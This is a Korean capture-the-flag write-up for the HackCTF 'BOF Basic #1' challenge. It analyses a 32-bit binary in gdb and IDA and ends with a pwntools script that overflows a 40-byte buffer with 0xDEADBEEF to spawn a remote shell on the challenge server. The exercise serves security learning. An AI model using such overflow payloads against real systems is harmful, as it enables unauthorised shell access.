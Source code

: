 ```yaml
---
title:  "[HackCTF] BOF Basic #1 풀이"
categories:
    - Pwnable
tags:
    - ctf.j0n9hyun.xyz
toc: true
published: true
---
```

[HackCTF] BOF Basic #1 풀이

# Environments

|Name|Config|
|:---:|:---|
|CPU|Apple M1|
|Architecture|ARM64|
|OS|Microsoft Windows 11 on ARM|
|Tools|- gdb-peda<br/>- Hex-Rays IDA 7.5|

# Problem
![](/assets/HCTF/bof_basic-0-0.png)
```
Get Input
Print You are on the right way! 또는 eah dude! You win!
```

요약: `bof_basic`, `nc ctf.j0n9hyun.xyz 3000` 으로부터 flag 찾기

# File Format
![](/assets/HCTF/bof_basic-0-1.png)

![](/assets/HCTF/bof_basic-0-2.png)

> x86 ELF LSB Executable, Not Stripped, Not UPX Packed

# checksec

|Name|Status|
|:---:|:---|
|CANARY|disabled|
|FORTIFY|disabled
|NX|ENABLED|
|PIE|disabled|
|RELRO|Partial|

- Can overwrite GOT

# Solution
![](/assets/HCTF/bof_basic-0-3.png)

우선 Function 정보를 `info func`를 통해 확인 함. system func call 이 이루어지므로 해당 func을 호출하는 것을 목표로 정함.

![](/assets/HCTF/bof_basic-0-4.png)

main func를 우선 분석 살펴봄. `fgets`로 String 입려 받고, `0xdeadbeef` 와 `cmp` (Compare) 와 `jne` (Jump Not Equal)로 값 비교 후 일치 하지 않는 경우 `0x804857c`로 Jump 한다. 그렇다면 값이 Equal 하다면 순차적으로 진행된다는 뜻.

![](/assets/HCTF/bof_basic-0-5.png)

IDA를 통해 Static Analysis 시도. `jne` 할 경우 (10번째 행) "You are on the right way!" 라는 메시지가 반겨줌.

또한 `cmp` 대상인 0xDEADBEEF 확인. 따라서 입력 값을 0xDEADBEEF 로 설정할 경우 `system("/bin/bash");` 를 호출 가능

3번째 행으로부터 char 형 배열 s를 40의 길이로 선언한 것 확인. 메모리 주소가 [esp+4]. 사용자로부터 입력 받는 값인 int 형 v5의 경우 메모리 주소가 [esp+44]. 하지만 7행을 보자면 fgets를 통해 최대 문자열 길이를 45까지 입력이 가능 한 것을 확인 가능.

이를 이용해 s를 40 바이트로 채우고 BOF시켜 뒤에 `0xDEADBEEF` 를 넣을 경우 v5가 `0xDEADBEEF` 로 Overwrite.

# Exploit Scenario
```
# p32: 4 Byte packing
payload = "Z" * 40 + p32(0xDEADBEEF)
```

# Exploit Code
```
from pwn import *
context.log_level = DEBUG # set log level to debug

p = remote("ctf.j0n9hyun.xyz", 3000)
payload = "Z" * 40 + p32(0xDEADBEEF)

p.sendline(payload) # send payload to p
p.interactive() # Prevent closing shell
```

# Result
![](/assets/HCTF/bof_basic-0-6.png)